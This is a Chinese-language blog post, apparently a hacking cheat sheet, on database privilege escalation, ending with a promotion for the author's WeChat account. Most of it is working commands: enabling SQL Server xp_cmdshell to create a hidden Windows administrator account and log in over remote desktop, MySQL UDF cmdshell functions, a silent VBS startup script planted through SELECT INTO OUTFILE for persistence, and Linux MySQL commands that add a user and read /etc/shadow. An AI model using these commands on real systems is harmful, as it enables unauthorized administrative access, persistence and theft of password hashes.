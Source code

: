 ```yaml
---
layout: post
category: binghe-code-hack
title: 数据库提权
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 数据库提权
lock: need
---
```


# 数据库提权

## SQL Server提权

**1.启用或关闭xp_cmdshell**

```bash
--启用xp_cmdshell
USE master 
EXEC sp_configure 'show advanced options', 1 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure 'xp_cmdshell', 1 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure   'show advanced options', 0
RECONFIGURE WITH OVERRIDE 

--关闭xp_cmdshell
USE master 
EXEC sp_configure 'show advanced options', 1 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure 'xp_cmdshell', 0 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure   'show advanced options', 0
RECONFIGURE WITH OVERRIDE 
```

**2.添加用户**

```bash
Exec master.dbo.xp_cmdshell 'net user liuyazhuang lyz123 /add'
```

**3.将用户添加到管理员组**

```bash
Exec master.dbo.xp_cmdshell 'net localgroup administrators liuyazhuang /add'
```

**4.通过xp_cmdshell exec查看系统用户**

```bash
Exec master.dbo.xp_cmdshell 'net user'
```

**5.远程终端登录**

命令行运行mstsc打开远程终端，输入IP地址和刚才添加的用户名和密码，登录即可。

另外，通过数据库备份，将批处理命令备份到启动文件夹下，系统重启后就会自动执行批处理命令，也能达到提权的效果。

## MySQL提权

**1.将udf.dll文件导出到默认的插件目录下**

**2.UDF提权的常用命令**

```sql
create function cmdshell returns string soname 'udf.dll';
select cmdshell('net user liuyazhuang lyz123 /add');
select cmdshell('net localgroup administrators liuyazhuang /add');
select cmdshell('net localgroup administrators');
select cmdshell('ipconfig/all');
select cmdshell('net user');
select cmdshell('regedit /s d:\wwwroot\3389.reg');
drop function cmdshell;
select cmdshell('netstat -an');
```

**3.VBS启动项**

先通过WebShell连接数据库，通过建立表a将VBS脚本写入表中，然后导入启动项。该脚本仅对中文版有效，如果使用其他语言版本的操作系统，仅需对"C:\\Documents and Settings\\All Users\\[开始]菜单\\程序\\启动\\a.vbs"这个脚本进行相应更改。在VBS脚本后面有一个"0"，表示不弹出CMD窗口，以静默模式运行。该方法是在通过UDF提权失败的情况下，将VBS插入启动项中，待系统重启后将自动添加一个用户，示例如下：

```sql
create table a (cmd text);
insert into a values("set wshshell=createobject(""wscript.shell"") " );
insert into a values("a=wshshell.run(""cmd.exe /c net user liuyazhuang lyz123 /add"",0) " );
insert into a values("b=wshshell.run(""cmd.exe /c net localgroup administrators liuyazhuang /add"",0) " );
select * from a into outfile "C:\\Documents and Settings\\All Users\\[开始]菜单\\程序\\启动\\a.vbs";
```

## Linux下的MySQL提权

```sql
mysql -hlocalhost -uroot -p
system useradd hacker
system passwd hacker
system tail -l /etc/passwd
system tail -l /etc/shadow
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png) 